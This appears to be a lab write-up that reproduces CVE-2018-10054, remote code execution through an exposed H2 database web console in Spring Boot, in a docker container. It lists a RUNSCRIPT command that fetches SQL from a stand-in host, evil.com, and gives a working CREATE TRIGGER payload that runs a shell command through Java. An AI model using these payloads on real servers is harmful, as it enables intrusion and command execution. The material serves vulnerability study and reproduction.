


H2 Database Web Console Authentication Remote Code Execution (CVE-2018-10054)¶
H2 database is a fast, open-source Java-based relational database management system (RDBMS) that can be used in both embedded (within a Java application) and client-server modes.
Springboot with h2 database comes with a web management page if you set the following options:
spring.h2.console.enabled=true
spring.h2.console.settings.web-allow-others=true
H2 Database versions prior to 1.4.198 allow any user to access the web management page by creating a new database file or connecting to an in-memory database. After authentication, an arbitrary code can be executed by one of the following commands:
RUNSCRIPT FROM 'http://evil.com/script.sql'CREATE ALIAS func AS code...; CALL func ...CREATE TRIGGER ... AS code...
References:
- https://mthbernardes.github.io/rce/2018/03/14/abusing-h2-database-alias.html
- https://www.exploit-db.com/exploits/45506
- https://github.com/h2database/h2database/issues/1225
- https://github.com/h2database/h2database/pull/1580
- https://github.com/h2database/h2database/pull/1726
Setup¶
Start a spring-boot with h2 database 1.4.197:
docker compose up -d
After started the container, the spring-boot is listening on http://your-ip:8080, the management page is http://your-ip:8080/h2-console/ by default.
Vulnerability Reproduce¶
First, login the H2 web console by connecting to the in-memory database:
jdbc:h2:mem:test

Then, execute the following commands to execute the id command:
CREATE TRIGGER shell3 BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript
var is = java.lang.Runtime.getRuntime().exec("id").getInputStream()
var scanner = new java.util.Scanner(is).useDelimiter("\\A")
throw new java.lang.Exception(scanner.next())
$$;
As you can see, the id command is executed successfully and the result is raised as an exception.
